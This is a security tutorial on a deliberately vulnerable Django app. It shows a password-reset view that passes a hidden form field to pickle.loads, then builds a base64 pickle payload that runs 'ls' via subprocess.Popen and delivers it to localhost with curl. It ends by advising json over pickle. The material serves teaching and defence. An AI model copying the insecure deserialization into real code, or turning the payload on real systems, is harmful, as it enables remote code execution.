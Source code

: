 **Description**: Code Injection is an attack type in the application executes untrusted injected code. These attacks are usually a result of improper input/output data validation. In this case we will explore Python's pickle library which "is not secure against erroneous or maliciously constructed data."


**Why**: Typically object serialization is used as a way to quickly compress an object into a byte stream. This is useful for easily storing objects  or even transferring objects efficiently through different parts of a program.

Let's look at the code.

We begin by allowing the functionality to reset a password. A user then gets an "email" which contains a link that takes the user to a password reset form.

**/template/password_reset/reset.html**
```html
 <form id = "resetForm" method="post" action="/password_resets/" > {% csrf_token %}

            <input type="hidden" value={{user}} name="user">

            <div class="form-group">
                <div class="cols-sm-10">
                    <div class="input-group">
                        <span class="input-group-addon"><i class="fa fa-lock fa-lg" aria-hidden="true"></i></span>
                        <input type="password" class="form-control" name="password" id="password"
                               placeholder="New Password" minlength="5" />
                    </div>
                </div>
            </div>
```

Note that our form has a hidden field called user. This user field is in fact a base64 encoded serialized user object created in the confirm_token method

**/views/password_resets/views.py**
```python
@require_http_methods(["GET"])
def confirm_token(request):
    if request.GET.get('token', '') != '' and is_valid_token(
            request.GET['token']):
        messages.success(request, 'Please create a new password.')
        id = request.GET['token'].split('-')[0]
        user = User.objects.filter(user_id=id).first()
        encoded = base64.b64encode(pickle.dumps(user))

        return render(request, 'password_reset/reset.html',
                      context={'user': encoded})
    else:
        try:
            messages.error(request, 'Bad token')
        except:
            pass

        return HttpResponseRedirect(reverse('app:login'))
```

Once submitted the form's data is sent to the reset_password method

**/views/password_resets/views.py**
```python
@require_http_methods(["POST"])
def reset_password(request):
    if request.POST.get('user', '') != '':
        encoded_user = request.POST['user']
        user = pickle.loads(base64.b64decode(encoded_user))

        user.password = request.POST['password']
        user.save()
        messages.success(request, 'Your password has been updated')
    else:
        try:
            messages.error(request, 'Password did not reset')
        except:
            pass

    return redirect('/login')

```

We decode and then pickle unserializes the byte stream into a python object. Well what if we changed the data that pickle recieves?

**The Attack:**

This attach is slightly complicated and requires a decent amount of setup. But it is important to note. We will essentially send a curl request to http://localhost:8000/password_resets/ which has "malicious" data that pickle incidentally executes. Let's begin by constructing this malicious data.

(python shell)
```
>>> import pickle
>>> import base64
>>> import subprocess
>>> print base64.b64encode(pickle.dumps((subprocess.Popen, (('ls',),))))
KGNzdWJwcm9jZXNzClBvcGVuCnAwCigoUydscycKcDEKdHAyCnRwMwp0cDQKLg==
```
We just serialized subprocesss method that runs the 'ls' command on our terminal.

Now we'll put together or curl request. It will be in the form

```
curl -H 'Cookie:   csrftoken=<csrf_token>' --data "user=<encoded_object>=&password=password1&confirm_password=password1&csrfmiddlewaretoken=<middleware_token>" http://localhost:8000/password_resets/
```

To get the crsf token fillout the password reset form and get the link. Then make this curl request

```
curl -i localhost:8000/password_resets/?token=2-e1ee0df341f342553a75351cf5e13b31
```
Scrolling to the top you will see the csrf_token. And right next to the form tag you will see the csrfmiddlewaretoken value. Now for encoded_object parameter put in the output of print base64.b64encode(pickle.dumps((subprocess.Popen, (('ls',),)))). When you send the request you should see the ls command executed!

**The Solution:**

Never use serialization frameworks like pickle or marshal with user input! Prioritize other forms of serialization including json.

